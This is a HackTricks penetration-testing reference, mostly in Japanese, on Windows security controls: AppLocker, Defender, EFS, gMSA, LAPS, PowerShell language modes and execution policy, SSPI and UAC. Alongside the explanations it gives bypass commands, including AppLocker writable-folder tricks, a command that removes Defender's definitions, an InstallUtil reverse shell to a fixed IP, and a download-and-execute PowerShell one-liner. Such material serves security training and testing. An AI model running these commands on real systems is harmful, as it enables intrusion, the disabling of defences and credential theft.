

# Windows Security Controls


Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


<figure><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:



## AppLocker Policy

アプリケーションホワイトリストは、システム上で存在し実行されることが許可された承認済みのソフトウェアアプリケーションまたは実行可能ファイルのリストです。目的は、環境を有害なマルウェアや、組織の特定のビジネスニーズに合致しない未承認のソフトウェアから保護することです。

[AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)は、マイクロソフトの**アプリケーションホワイトリストソリューション**であり、システム管理者に**ユーザーが実行できるアプリケーションやファイルを制御する**権限を与えます。これは、実行可能ファイル、スクリプト、Windowsインストーラファイル、DLL、パッケージアプリ、パックされたアプリインストーラに対して**詳細な制御**を提供します。\
組織が**cmd.exeやPowerShell.exeをブロックし**、特定のディレクトリへの書き込みアクセスを制限することは一般的ですが、**これらはすべて回避可能です**。

### Check

ブラックリスト/ホワイトリストに登録されているファイル/拡張子を確認します:
```powershell
Get-ApplockerPolicy -Effective -xml

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

$a = Get-ApplockerPolicy -effective
$a.rulecollections
```
このレジストリパスには、AppLockerによって適用された構成とポリシーが含まれており、システム上で強制されている現在のルールセットを確認する方法を提供します：

* `HKLM\Software\Policies\Microsoft\Windows\SrpV2`

### バイパス

* AppLockerポリシーをバイパスするための便利な**書き込み可能フォルダー**：AppLockerが`C:\Windows\System32`または`C:\Windows`内の任意のものを実行することを許可している場合、**このバイパスに使用できる書き込み可能フォルダー**があります。
```
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```
* 一般的に**信頼された** [**"LOLBAS's"**](https://lolbas-project.github.io/) バイナリは、AppLockerをバイパスするのにも役立ちます。
* **不適切に書かれたルールもバイパスされる可能性があります**
* 例えば、**`<FilePathCondition Path="%OSDRIVE%*\allowed*"/>`** の場合、どこにでも**`allowed`**という**フォルダーを作成**すれば許可されます。
* 組織はしばしば**`%System32%\WindowsPowerShell\v1.0\powershell.exe`** 実行可能ファイルを**ブロックすることに焦点を当てますが、**他の** [**PowerShell実行可能ファイルの場所**](https://www.powershelladmin.com/wiki/PowerShell\_Executables\_File\_System\_Locations)（例：`%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`や`PowerShell_ISE.exe`）を忘れがちです。
* **DLLの強制は非常に稀に有効**であり、システムにかかる追加の負荷や、何も壊れないことを確認するために必要なテストの量が理由です。したがって、**DLLをバックドアとして使用することでAppLockerをバイパスするのに役立ちます**。
* [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick)や[**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick)を使用して、**任意のプロセスでPowershell**コードを**実行し、AppLockerをバイパスする**ことができます。詳細については、[こちらを確認してください](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode)。

## 資格情報の保存

### セキュリティアカウントマネージャー (SAM)

ローカル資格情報はこのファイルに存在し、パスワードはハッシュ化されています。

### ローカルセキュリティ機関 (LSA) - LSASS

**資格情報**（ハッシュ化されたもの）は、シングルサインオンの理由からこのサブシステムの**メモリ**に**保存**されます。\
**LSA**はローカルの**セキュリティポリシー**（パスワードポリシー、ユーザー権限など）、**認証**、**アクセス トークン**を管理します。\
LSAは、**SAM**ファイル内の提供された資格情報を**確認**し（ローカルログイン用）、ドメインユーザーを認証するために**ドメインコントローラー**と**通信**します。

**資格情報**は**プロセスLSASS**内に**保存**されます：Kerberosチケット、NTおよびLMのハッシュ、簡単に復号化可能なパスワード。

### LSAシークレット

LSAはディスクにいくつかの資格情報を保存することがあります：

* アクティブディレクトリのコンピュータアカウントのパスワード（到達不可能なドメインコントローラー）。
* Windowsサービスのアカウントのパスワード
* スケジュールされたタスクのパスワード
* その他（IISアプリケーションのパスワードなど...）

### NTDS.dit

これはアクティブディレクトリのデータベースです。ドメインコントローラーにのみ存在します。

## ディフェンダー

[**Microsoft Defender**](https://en.wikipedia.org/wiki/Microsoft\_Defender)は、Windows 10およびWindows 11、そしてWindows Serverのバージョンで利用可能なアンチウイルスです。**一般的なペンテストツール（例：**`WinPEAS`**）を**ブロック**します。しかし、これらの保護を**バイパスする方法**があります。

### チェック

**Defender**の**ステータス**を確認するには、PSコマンドレット**`Get-MpComputerStatus`**を実行できます（**`RealTimeProtectionEnabled`**の値を確認して、アクティブかどうかを知ります）：

<pre class="language-powershell"><code class="lang-powershell">PS C:\> Get-MpComputerStatus

[...]
AntispywareEnabled              : True
AntispywareSignatureAge         : 1
AntispywareSignatureLastUpdated : 12/6/2021 10:14:23 AM
AntispywareSignatureVersion     : 1.323.392.0
AntivirusEnabled                : True
[...]
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
[...]
<strong>RealTimeProtectionEnabled       : True
</strong>RealTimeScanDirection           : 0
PSComputerName                  :
</code></pre>

列挙するには、次のコマンドを実行することもできます：
```bash
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
wmic /namespace:\\root\securitycenter2 path antivirusproduct
sc query windefend

#Delete all rules of Defender (useful for machines without internet access)
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
## Encrypted File System (EFS)

EFSは、**対称鍵**である**ファイル暗号化鍵（FEK）**を使用してファイルを暗号化することで保護します。この鍵はユーザーの**公開鍵**で暗号化され、暗号化されたファイルの$EFS **代替データストリーム**内に保存されます。復号が必要な場合、ユーザーのデジタル証明書の対応する**秘密鍵**を使用して$EFSストリームからFEKを復号します。詳細は[こちら](https://en.wikipedia.org/wiki/Encrypting\_File\_System)で確認できます。

**ユーザーの操作なしでの復号シナリオ**には以下が含まれます：

* ファイルやフォルダーが[FAT32](https://en.wikipedia.org/wiki/File\_Allocation\_Table)のような非EFSファイルシステムに移動されると、自動的に復号されます。
* SMB/CIFSプロトコルを介してネットワーク上で送信される暗号化ファイルは、送信前に復号されます。

この暗号化方法により、所有者は暗号化されたファイルに**透過的にアクセス**できます。ただし、所有者のパスワードを単に変更してログインするだけでは復号は許可されません。

**重要なポイント**：

* EFSは、ユーザーの公開鍵で暗号化された対称FEKを使用します。
* 復号にはユーザーの秘密鍵を使用してFEKにアクセスします。
* FAT32へのコピーやネットワーク送信など、特定の条件下で自動的に復号が行われます。
* 暗号化されたファイルは、追加の手順なしで所有者がアクセスできます。

### EFS情報の確認

この**サービス**を**使用した**かどうかを確認するには、このパスが存在するか確認します：`C:\users\<username>\appdata\roaming\Microsoft\Protect`

ファイルへの**アクセス権**を確認するには、cipher /c \<file>\を使用します。\
フォルダー内で`cipher /e`および`cipher /d`を使用して、すべてのファイルを**暗号化**および**復号**することもできます。

### EFSファイルの復号

#### 権限のあるシステムであること

この方法では、**被害者ユーザー**がホスト内で**プロセス**を**実行している**必要があります。その場合、`meterpreter`セッションを使用してユーザーのプロセスのトークンを偽装することができます（`incognito`の`impersonate_token`）。または、ユーザーのプロセスに`migrate`することもできます。

#### ユーザーのパスワードを知っていること



## Group Managed Service Accounts (gMSA)

Microsoftは、ITインフラストラクチャにおけるサービスアカウントの管理を簡素化するために**グループ管理サービスアカウント（gMSA）**を開発しました。従来のサービスアカウントは「**パスワードは期限切れにならない**」設定が有効であることが多いのに対し、gMSAはより安全で管理しやすいソリューションを提供します：

* **自動パスワード管理**：gMSAは、ドメインまたはコンピュータポリシーに応じて自動的に変更される複雑な240文字のパスワードを使用します。このプロセスはMicrosoftのキー配布サービス（KDC）によって処理され、手動でのパスワード更新が不要になります。
* **強化されたセキュリティ**：これらのアカウントはロックアウトに対して免疫があり、対話的ログインに使用できないため、セキュリティが向上します。
* **複数ホストのサポート**：gMSAは複数のホストで共有できるため、複数のサーバーで実行されるサービスに最適です。
* **スケジュールされたタスクの実行能力**：管理されたサービスアカウントとは異なり、gMSAはスケジュールされたタスクの実行をサポートします。
* **簡素化されたSPN管理**：コンピュータのsAMaccountの詳細やDNS名に変更があった場合、システムは自動的にサービスプリンシパル名（SPN）を更新し、SPN管理を簡素化します。

gMSAのパスワードはLDAPプロパティ_**msDS-ManagedPassword**_に保存され、ドメインコントローラー（DC）によって30日ごとに自動的にリセットされます。このパスワードは、[MSDS-MANAGEDPASSWORD\_BLOB](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e)として知られる暗号化データブロブであり、認可された管理者とgMSAがインストールされているサーバーのみが取得できるため、安全な環境が確保されます。この情報にアクセスするには、LDAPSのような安全な接続が必要であるか、接続は「Sealing & Secure」で認証される必要があります。



このパスワードは[**GMSAPasswordReader**](https://github.com/rvazarkar/GMSAPasswordReader)**を使用して読み取ることができます。
```
/GMSAPasswordReader --AccountName jkohler
```
[**この投稿で詳細情報を見つける**](https://cube0x0.github.io/Relaying-for-gMSA/)

また、**gMSA**の**パスワード**を**読み取る**ための**NTLMリレー攻撃**を実行する方法についての[このウェブページ](https://cube0x0.github.io/Relaying-for-gMSA/)も確認してください。

## LAPS

**ローカル管理者パスワードソリューション (LAPS)**は、[Microsoft](https://www.microsoft.com/en-us/download/details.aspx?id=46899)からダウンロード可能で、ローカル管理者パスワードの管理を可能にします。これらのパスワードは、**ランダム化**され、ユニークで、**定期的に変更**され、Active Directoryに中央集権的に保存されます。これらのパスワードへのアクセスは、ACLを通じて承認されたユーザーに制限されています。十分な権限が付与されると、ローカル管理者パスワードを読み取る能力が提供されます。


[laps.md](active-directory-methodology/laps.md)


## PS制約付き言語モード

PowerShell [**制約付き言語モード**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)は、COMオブジェクトのブロック、承認された.NETタイプのみの許可、XAMLベースのワークフロー、PowerShellクラスなど、PowerShellを効果的に使用するために必要な多くの機能を**制限**します。

### **確認**
```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```
### バイパス
```powershell
#Easy bypass
Powershell -version 2
```
現在のWindowsでは、そのバイパスは機能しませんが、[ **PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM)を使用できます。\
**コンパイルするには** **次のことが必要です** **_**参照を追加**_ -> _参照_ -> _参照_ -> `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll`を追加し、**プロジェクトを.Net4.5に変更します**。

#### 直接バイパス:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```
#### リバースシェル:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
You can use [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) to **execute Powershell** コードを任意のプロセスで実行し、制約モードをバイパスします。詳細については、次を確認してください: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS 実行ポリシー

デフォルトでは **restricted** に設定されています。このポリシーをバイパスする主な方法:
```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```
More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## セキュリティサポートプロバイダインターフェース (SSPI)

ユーザーを認証するために使用できるAPIです。

SSPIは、通信を希望する2台のマシンに適切なプロトコルを見つける役割を担います。これに対する推奨方法はKerberosです。次に、SSPIは使用される認証プロトコルを交渉します。これらの認証プロトコルはセキュリティサポートプロバイダ（SSP）と呼ばれ、各Windowsマシン内にDLLの形で存在し、両方のマシンが同じものをサポートする必要があります。

### 主なSSP

* **Kerberos**: 推奨されるもの
* %windir%\Windows\System32\kerberos.dll
* **NTLMv1**および**NTLMv2**: 互換性の理由
* %windir%\Windows\System32\msv1\_0.dll
* **Digest**: WebサーバーおよびLDAP、MD5ハッシュ形式のパスワード
* %windir%\Windows\System32\Wdigest.dll
* **Schannel**: SSLおよびTLS
* %windir%\Windows\System32\Schannel.dll
* **Negotiate**: 使用するプロトコルを交渉するために使用されます（KerberosまたはNTLM、デフォルトはKerberos）
* %windir%\Windows\System32\lsasrv.dll

#### 交渉は複数の方法を提供することも、1つだけを提供することもあります。

## UAC - ユーザーアカウント制御

[ユーザーアカウント制御 (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)は、**昇格された活動のための同意プロンプトを有効にする**機能です。


[uac-user-account-control.md](windows-security-controls/uac-user-account-control.md)


<figure><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)を使用して、世界で最も**高度な**コミュニティツールによって駆動される**ワークフローを簡単に構築および自動化**します。\
今すぐアクセスを取得：



***


AWSハッキングを学び、実践する：[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
GCPハッキングを学び、実践する：[**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

